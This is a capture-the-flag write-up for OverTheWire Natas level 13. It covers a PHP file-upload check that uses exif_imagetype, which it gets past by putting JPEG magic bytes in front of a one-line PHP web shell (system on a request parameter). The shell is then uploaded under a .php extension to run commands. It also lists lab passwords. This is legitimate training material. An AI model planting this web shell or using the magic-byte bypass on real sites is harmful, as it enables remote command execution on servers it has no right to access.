





# Level 13

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas13.natas.labs.overthewire.org](http://natas13.natas.labs.overthewire.org)
- username: `natas13`
- password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

## Solution



Let's see the sourcecode:

```php
...
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
...
```

Pretty much the same as previous challenge, but now it has function `exif_imagetype`, so we now need to set [file signature bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to match the image file. We just need to add `FF D8 FF EE` bytes at the beginning of our `shell.php`. We can do it with hex editor:



So now it will interpret our file as `JPEG image`:

```sh
$ cat shell.php 
????<?php echo system($_REQUEST['cmd']);?>
$ file shell.php 
shell.php: JPEG image data
```

Now let's upload it and intercept the request with Burp to modify the file extension as in previous challenge:



`The file upload/otg9uhqguv.php has been uploaded`, let's execute commands as in previous challenge:



And when we send this request, we get:



## Password

`natas14`:`qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`

*Created by [bu19akov](https://github.com/bu19akov)*